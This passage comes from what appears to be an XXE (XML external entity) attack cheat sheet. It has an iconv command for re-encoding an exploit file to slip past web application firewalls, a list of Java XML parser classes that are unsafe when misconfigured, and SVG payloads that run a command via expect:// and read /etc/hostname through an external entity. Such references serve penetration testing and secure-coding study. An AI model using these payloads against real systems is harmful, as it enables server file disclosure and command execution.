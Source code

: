 **Example**: We can convert the payload to `UTF-16` using [iconv](https://man7.org/linux/man-pages/man1/iconv.1.html) to bypass some WAF:

```bash
cat utf8exploit.xml | iconv -f UTF-8 -t UTF-16BE > utf16exploit.xml
```

## XXE in Java

Unsecure configuration in 10 different Java classes from three XML processing interfaces (DOM, SAX, StAX) that can lead to XXE:

![XXE Java security features overview infographics](https://semgrep.dev/docs/assets/images/cheat-sheets-xxe-java-infographics-1d1d5016802e3ab8f0886b62b8c81f21.png)

- [DocumentBuilderFactory (javax.xml.parsers.DocumentBuilderFactory)](https://semgrep.dev/docs/cheat-sheets/java-xxe/#3a-documentbuilderfactory)
- [SAXBuilder (org.jdom2.input.SAXBuilder)](https://semgrep.dev/docs/cheat-sheets/java-xxe/#3b-saxbuilder)
- [SAXParserFactory (javax.xml.parsers.SAXParserFactory)](https://semgrep.dev/docs/cheat-sheets/java-xxe/#3c-saxparserfactory)
- [SAXParser (javax.xml.parsers.SAXParser )](https://semgrep.dev/docs/cheat-sheets/java-xxe/#3d-saxparser)
- [SAXReader (org.dom4j.io.SAXReader)](https://semgrep.dev/docs/cheat-sheets/java-xxe/#3e-saxreader)
- [TransformerFactory (javax.xml.transform.TransformerFactory) & SAXTransformerFactory (javax.xml.transform.sax.SAXTransformerFactory)](https://semgrep.dev/docs/cheat-sheets/java-xxe/#3f-transformerfactory--saxtransformerfactory)
- [SchemaFactory (javax.xml.validation.SchemaFactory)](https://semgrep.dev/docs/cheat-sheets/java-xxe/#3g-schemafactory)
- [Validator (javax.xml.validation.Validator)](https://semgrep.dev/docs/cheat-sheets/java-xxe/#3h-validator)
- [XMLReader (org.xml.sax.XMLReader)](https://semgrep.dev/docs/cheat-sheets/java-xxe/#3i-xmlreader)

Ref.

- [Semgrep - XML Security in Java](https://semgrep.dev/blog/2022/xml-security-in-java)
- [Semgrep - XML External entity prevention for Java](https://semgrep.dev/docs/cheat-sheets/java-xxe/)


## XXE in exotic files

### XXE inside SVG

```xml
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls" width="200" height="200"></image>
</svg>
```

**Classic**

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```
